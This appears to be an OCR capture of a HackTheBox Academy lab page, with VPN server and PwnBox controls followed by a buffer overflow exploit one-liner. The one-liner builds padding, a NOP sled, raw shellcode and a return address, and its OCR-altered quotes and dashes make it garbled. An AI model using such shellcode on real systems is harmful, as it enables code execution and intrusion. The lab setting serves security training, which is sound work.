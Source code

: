 VPN Servers

Warning: Each time you "Switch", your connection keys are regenerated and you must re-download your VPN connection file.

All VM instances associated with the old VPN Server will be terminated when switching to a new VPN server.  
Existing PwnBox instances will automatically switch to the new VPN server.

 Select Vpn Server  eu-academy-1 eu-academy-2 us-academy-1 us-academy-2 us-academy-3 

PROTOCOL

UDP 1337

TCP 443

DOWNLOAD VPN CONNECTION FILE

Start Instance

 / 1 spawns left

Waiting to start...

```
$(python -c ‘print(“\x55” * (2064–124–95–4) + “\x90” * 124 + "\xdb\xd3\xd9\x74\x24\xf4\xb8\x97\xac\x21\xcc\x5a\x29\xc9\xb1\x12\x31\x42\x17\x03\x42\x17\x83\x55\xa8\xc3\x39\x68\x6a\xf4\x21\xd9\xcf\xa8\xcf\xdf\x46\xaf\xa0\xb9\x95\xb0\x52\x1c\x96\x8e\x99\x1e\x9f\x89\xd8\x76\x2a\x60\x15\x36\x42\x76\x29\x27\xcf\xff\xc8\xf7\x89\xaf\x5b\xa4\xe6\x53\xd5\xab\xc4\xd4\xb7\x43\xb9\xfb\x44\xfb\x2d\x2b\x84\x99\xc4\xba\x39\x0f\x44\x34\x5c\x1f\x61\x8b\x1f" + “**\x2e\xd7\xff\xff**”)'
```

























